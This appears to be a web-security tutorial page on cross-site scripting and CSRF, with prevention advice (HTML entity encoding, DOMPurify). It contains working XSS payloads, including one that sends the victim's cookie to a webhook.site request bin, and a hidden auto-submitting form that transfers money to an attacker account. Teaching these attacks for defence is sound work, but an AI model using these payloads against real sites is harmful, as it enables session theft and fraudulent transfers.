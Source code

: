 #### Basic

```javascript
<script>alert('XSS')</script>
<img src=x onerror=alert('XSS')>
javascript:alert('XSS')
"><script>alert('XSS')</script>
```

#### Advanced

Collect victim's data in a request bin (e.g. [webhook.site](https://webhook.site))

```javascript
<script>document.location='https://webhook.site/xxxx?cookie='+document.cookie</script>
```

---

### XSS Prevention

If you intend to display user inputs as plaintext, encode special characters into HTML character entities (e.g. `<` becomes `&lt;` (less than)).

When user inputs have to be displayed in the DOM (e.g. custom HTML), use something like [DOMPurify](https://github.com/cure53/DOMPurify) to sanitize away XSS content.

---

## Cross-Site Request Forgery (CSRF)

Forces authenticated users to perform unwanted actions

### How CSRF Works

1. User logs into a legitimate website
2. User visits malicious website while still logged in
3. Malicious site sends forged request to the legitimate website
4. The legitimate website processes request as legitimate (user is authenticated)

---

### CSRF Attack Example

An attacker puts an auto-submit form that makes the victim's browser send a request to the bank to transfer them money.

```html
<form action="https://bank.com/transfer" method="POST" style="display:none">
	<input name="to" value="attacker_account" />
	<input name="amount" value="10000" />
	<input type="submit" value="Submit" />
</form>
<script>
	document.forms[0].submit();
</script>
```

---